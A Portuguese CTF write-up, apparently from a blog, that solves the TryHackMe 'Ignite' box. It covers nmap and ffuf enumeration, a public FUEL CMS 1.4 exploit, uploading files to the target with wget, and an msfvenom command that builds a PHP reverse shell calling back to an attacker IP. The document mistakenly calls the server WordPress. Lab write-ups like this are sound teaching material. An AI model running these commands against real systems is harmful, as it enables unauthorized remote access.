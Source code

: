 ```yaml
---
title: 'TryHackMe: Ignite'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Ffuf]
image:
  path: assets/images/tryhackme/ignite/image.png
---
```


## Nmap

Abrindo o site Já podemos encontrar muitas informações. Está rodando um CMS mal configurado, e lendo um pouco descobri a existência da rota /fuel:

![alt text](assets/images/tryhackme/ignite/image2.png)

![alt text](assets/images/tryhackme/ignite/image3.png)

Entrando na rota e colocando o login e a senha temos acesso ao painel de admin. Isso pode ser usado mais tarde, por exemplo se um exploit precisar do acesso ao painel de admin para funcionar.

![alt text](assets/images/tryhackme/ignite/image4.png)

Vamos começar com aquele Nmap padrão:

```

nmap -sC -sV -T4 -sS -Pn -A -p- 10.10.97.246   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 06:25 -03
Stats: 0:06:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.48% done; ETC: 06:38 (0:07:15 remaining)
Stats: 0:12:35 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 92.08% done; ETC: 06:38 (0:01:05 remaining)
Nmap scan report for 10.10.97.246
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/13%OT=80%CT=1%CU=43989%PV=Y%DS=2%DC=T%G=Y%TM=67ADBDC
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%
OS:CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SEQ(SP=106%G
OS:CD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M5
OS:08NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF
OS:%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   263.32 ms 10.8.0.1
2   263.45 ms 10.10.97.246

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 859.82 seconds


```

Vamos fazer também uma enumeração de subdiretórios com Ffuf:

```

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://10.10.97.246/FUZZ -c -v

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.97.246/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 309ms]
| URL | http://10.10.97.246/0
    * FUZZ: 0

[Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 7985ms]
| URL | http://10.10.97.246/.htaccess
    * FUZZ: .htaccess

[Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 207ms]
| URL | http://10.10.97.246/.htpasswd
    * FUZZ: .htpasswd

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 321ms]
| URL | http://10.10.97.246/assets
| --> | http://10.10.97.246/assets/
    * FUZZ: assets

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 219ms]
| URL | http://10.10.97.246/home
    * FUZZ: home

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 221ms]
| URL | http://10.10.97.246/index
    * FUZZ: index

[Status: 200, Size: 70, Words: 8, Lines: 2, Duration: 267ms]
| URL | http://10.10.97.246/offline
    * FUZZ: offline

[Status: 200, Size: 30, Words: 3, Lines: 2, Duration: 236ms]
| URL | http://10.10.97.246/robots.txt
    * FUZZ: robots.txt

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 240ms]
| URL | http://10.10.97.246/server-status
    * FUZZ: server-status

[Status: 200, Size: 398, Words: 13, Lines: 12, Duration: 5522ms]
| URL | http://10.10.97.246/sitemap_xml
    * FUZZ: sitemap_xml

:: Progress: [20478/20478] :: Job [1/1] :: 177 req/sec :: Duration: [0:03:16] :: Errors: 0 ::

```

```
Essas rotas não me trouxeram nada promissor, então só me resta pesquisar se existe algum CVE que faça o exploit do FUEL CMS na versão 1.4: https://www.exploit-db.com/exploits/50477 Baixando o arquivo .py e rodando e colocando os argumentos necessários consegui atacar o alvo e acessar um terminal que não é 100% iterativo, não consigo sair da pasta do servidor apache (usar o comando cd), então provavelmente temos que subir algum arquivo malicioso no servidor e executar chamando a rota do arquivo. (forçando o servidor a rodar o arquivo.) vou tentar com um arquivo .sh primeiro.
```

vou subir o apache na minha máquina para servir arquivos
```
sudo systemctl start apache2
```

agora vou entrar em /var/www/html e vou criar o arquivo usando nano teste.sh
```
nano teste.sh
#!/bin/bash
echo "Hello, World!"
```

agora vou entrar na máquina vítima e dar um wget no meu ip / esse arquivo. ./teste.sh não rodou. vou testar com um arquivo php afinal de contas o servidor dele roda em cima de wordpress. Ok, como eu estou mandando comandos remotos talvez eu não tenha permissão para executar nada porém o servidor provavelmente tem permissão maior que eu. Se eu forçar o servidor a executar o arquivo eu posso logar com permissão maior. O servidor é wordpress logo ele executa PHP. Ele só não executou meu script com o comando remoto pois eu não tinha permissão olhe o print:

![alt text](assets/images/tryhackme/ignite/image6.png)

Então vou forçar rodar o arquivo chamando o arquivo através do meu navegador. Observe os dois próximos prints:

![alt text](assets/images/tryhackme/ignite/image7.png)

O servidor não executou o print acima. Acredito que nem faça sentido executar pois é wordpress, php etc...

Agora o arquivo em php ele executou:

![alt text](assets/images/tryhackme/ignite/image8.png)

Então vamos criar uma reverse shell utilizando PHP para que eu possa ter um cmd melhor. Vou usar o comando para gerar o código php: (peguei desse site: https://www.revshells.com/)

```
msfvenom -p php/reverse_php LHOST=10.8.18.71 LPORT=4242 -o shell.php
```

![alt text](assets/images/tryhackme/ignite/image9.png)

Engraçado, nem precisei chamar no navegador o arquivo para executar. Talvez o código gerado pelo msfvenom já se auto execute ao entrar.
